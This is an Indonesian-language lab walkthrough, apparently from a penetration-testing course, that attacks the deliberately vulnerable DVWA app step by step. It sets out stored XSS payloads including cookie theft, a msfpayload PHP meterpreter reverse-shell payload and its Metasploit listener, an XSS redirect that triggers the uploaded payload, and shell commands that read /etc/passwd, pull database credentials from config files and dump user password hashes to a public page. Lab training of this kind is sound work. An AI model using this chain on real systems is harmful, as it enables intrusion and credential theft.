


## LESSON 9

Inti dari Lesson 10 adalah mendapatkan 7 hal, yaitu:
1. Test **Basic Cross Site Scripting (XSS)** attack
2. Test **Iframe Cross Site Scripting (XSS)** attack
3. Test **Cookie Cross Site Scripting (XSS)** attack
4. Membuat **php/meterpreter/reverse_tcp payload**
5. Menjalankan **php/meterpreter/reverse_tcp listener**
6. Mengunggah **PHP paload** lewat **DVWA Upload Screen**
7. Test **PHP Payload** menggunakan **Cross Site Scripting (XSS) attack**

**NOTE**
- IP yang digunakan adalah sesuai dengan IP tempat DVWA ter-deploy

### Langkah-langkah

**A. Fix Stored Cross Site Scripting (XSS)**
1. Masukkan command

```
cd /var/www/html/dvwa/vulnerabilities/xss_s/
nano index.php
```


2. Mengganti panjang **mtxMessage** menjadi **250** di dalam **index.php**


**B. Enable Javascript**
1. Masuk ke **Firefox**, klik **Edit** -> **Preferences* -> **Content**, Centang **Block pop-up Windows** dan **Enable JavaScript**


**C. XSS Stored Basic Exploit Test**
1. Pilih menu **XSS Stored**, lalu isi **Name** dengan **Test 1** dan **Message** dengan

```
<script>alert("This is a XSS Exploit Test")</script>
```


Lalu


Hasil


**D. XSS Stored IFRAME Exploit Test**
1. Pilih **Setup** lalu klik **Create / Reset Database Button**


Hasil


2. Pilih **XSS Stored**, lalu isi **Name** dengan **Test 2** dan **Message** dengan

```
<iframe src="http://www.cnn.com"></iframe>
```


Hasil


**E. XSS Stored COOKIE Exploit Test**
1. Pilih **Setup** lalu klik **Create / Reset Database Button**


2. Pilih **XSS Stored**, lalu isi **Name** dengan **Test 3** dan **Message** dengan

```
<script>alert(document.cookie)</script>
```


Hasil


**F. Build PHP msfpayload**
1. Masukkan command ini

```
msfpayload php/meterpreter/reverse_tcp LHOST=192.168.1.104 LPORT=4444 R > FORUM_BUG.php
```



2. **Edit** **FORUM_BUG.php**


**G. Upload PHP Payload**
1. Pilih **Upload** dan pilih **FORUM_BUG.php**


Hasil


2. Jalankan **PHP Listener**

```
use exploit/multi/handler
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST 192.168.1.104
set LPORT 4444
exploit
```


**H. XSS Stored window.location Exploit Test**
1. Pilih **Setup** pada DVWA dan klik **Create / Reset Database Button**

2. Pilih **XSS Stored** pada DVWA dan isi **Name** dengan **Test 4** dan **Message** dengan

```
<script>window.location="http://192.168.1.103/dvwa/hackable/uploads/FORUM_BUG.php" </script>
```


Hasil


**NOTE**
- Terdapat icon **Connecting**

**I. View Metasploit Session**
1. **Backtrack** mendapatkan jawaban


2. Melakukan koneksi **Shell**

```
shell
tail /etc/passwd
```


3. Mencari **File Konfigurasi**

```
whoami
grep apache /etc/passwd
find /var/www/* -print | grep config
```


4. Exploit **File Konfigurasi**

```
grep "db_" /var/www/html/dvwa/config/config.inc.php
echo "use dvwa; show tables;" | mysql -uroot -psanisani
echo "use dvwa; desc users;" | mysql -uroot -psanisani
echo "select user,password from dvwa.users;" | mysql -uroot -psanisani
```




```
echo "<pre>" >> /var/www/html/dvwa/hackable/uploads/xss.html
echo "select user,password from dvwa.users;" | mysql -uroot -pdvwaPASSWORD >> /var/www/html/dvwa/hackable/uploads/xss.html
echo "</pre>" >> /var/www/html/dvwa/hackable/uploads/xss.html
echo "<br>Your Name<br>" >> /var/www/html/dvwa/hackable/uploads/xss.html
date >> /var/www/html/dvwa/hackable/uploads/xss.html
```


**J. Testing**
1. Akses halaman
```
http://192.168.1.103/dvwa/hackable/uploads/xss.html
```


### Kesimpulan Lesson 9

Menggunakan **XSS** dapat mengetahui konten dari **Database**
